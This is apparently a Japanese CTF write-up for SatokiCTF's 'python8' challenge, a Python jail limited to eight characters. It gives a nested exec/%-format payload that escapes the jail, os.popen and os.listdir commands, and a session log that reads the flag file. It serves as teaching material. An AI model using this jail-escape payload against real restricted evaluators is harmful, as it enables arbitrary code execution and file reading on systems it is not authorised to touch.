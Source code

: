 # python8:Misc

$ python8

`nc 160.251.183.149 3838`

Attachment\
[python8.zip](https://github.com/colza12/ctf_writeup/blob/main/SatokiCTF/Misc/python8/python8.zip)

Difficulty Level : medium\
Point : 300

# Solution
添付ファイルを見てみると、使える文字が`0'()%cex`だけに制限されていた。\
Python8は未来すぎて使える文字が8文字しかないらしい。\
使える文字からして、明らかに`exec`と`%`を使えとのことだろう。\
`exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))`が使えるという情報を頂いたのでそのまま使わせていただきました。(この部分はどうしても分からなかった...コードを見れば理解できるが、自分で作るとなると...)\
python8.pyを実行して上記コードを投げると、任意の関数を実行できるようになる。(上記コードの解析依頼をChatGPT君に投げたら、バグりかけて途中で停止し正常動作に戻ったのはすごかった。さすがです。)\
`ls`、`cd`、`cat`を使ってflagを探したいが、これはLinuxではなくPythonなので、コマンドをそれぞれ置き換える(Linux環境で実行している場合はコメントの方を使用)。
```python
ls = import os; print('\n'.join(os.listdir('.')))    # ls = import os; os.system('ls')
cd = import os; os.chdir('..')      # cd = import os; os.system('cd')
cat = import os; print(os.popen('cat flag.txt').read())    # cat = import os; os.sysmte('cat')
```
上記コードを使ってディレクトリのどこかにあるflagを探索していく。
```
$ nc 160.251.183.149 3838
Python 8.26.1997 (main, Aug 26 2997, 00:00:00) [SatoCompiler 1.0.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os; print('\n'.join(os.listdir('.')))
run
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os; os.chdir('..')
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os; print('\n'.join(os.listdir('.')))
app
var
home
sys
srv
usr
opt
mnt
bin
etc
media
dev
flag-31ac9361857cf0098f093447acbbd315.txt
proc
sbin
lib
lib64
root
boot
run
tmp
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os; print(os.popen('cat flag-31ac9361857cf0098f093447acbbd315.txt').read())
flag{1_pr0b4bly_w0n7_b3_4l1v3_by_7h3_71m3_py7h0n_r34ch35_v3r510n_8}
```
flagが得られた。

`flag{1_pr0b4bly_w0n7_b3_4l1v3_by_7h3_71m3_py7h0n_r34ch35_v3r510n_8}`
